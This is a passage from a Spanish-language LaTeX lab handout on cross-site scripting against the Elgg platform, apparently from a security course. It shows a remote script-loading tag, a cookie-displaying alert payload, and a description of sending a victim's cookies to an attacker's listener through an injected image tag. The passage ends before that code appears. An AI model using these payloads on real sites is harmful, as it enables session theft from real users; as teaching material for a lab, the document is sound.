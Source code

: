 En este caso, el código JavaScript es lo suficientemente corto como para ser ingresado en el campo de descripción, en caso que desee correr un código más largo pero se encuentre limitado por la cantidad de caracteres a ingresar en el campo del formulario, se puede usar un archivo JavaScript cargándolo desde una ubicación remota usando el atributo {\tt src} dentro del tag {\tt <script>}  A continuación se muestra el ejemplo:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
En el ejemplo anterior, la página cargará el archivo JavaScript desde \url{http://www.example.com}, pero podría ser cualquier otro servidor.


\subsection{Tarea 2: Posteando un Mensaje Malicioso para Mostrar las Cookies}

El objetivo de esta Tarea es embeber código Javascript dentro de su perfil en {\tt Elgg}, esto hará que cuando un usuario visite su perfil este código sea ejecutado y se abrirá una ventana de alerta con las cookies. 
A continuación se muestra el código que debe ser embebido:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Tarea 3: Robar las Cookies de la Víctima}

En la tarea anterior hemos utilizado código JavaScript malicioso donde el atacante puede imprimir las cookies de un usuario, pero solamente el usuario que está visitando el perfil puede ver sus propias cookies y no el atacante. En esta tarea el atacante podrá recibir y tener acceso a las cookies de la víctima.
Para lograr esto, el código JavaScript necesitará enviar estas cookies en un Request HTTP al atacante.

Esto se puede hacer insertando código JavaScript malicioso que agrega un elemento {$<$img$>$} en el DOM y donde su atributo {\tt src} apunte a la máquina del atacante. 
De esta forma cuando este código sea insertado y el navegador trate de cargar esta imagen desde el tag {\tt img} usando el atributo {\tt src} como origen de la misma, terminará enviando un Request HTTP GET hacia la máquina del atacante.
El siguiente código envía las cookies al puerto 5555 de la máquina del atacante (cuya IP es {\tt 10.9.0.1}) y donde el atacante tiene un servidor TCP escuchando en ese puerto.

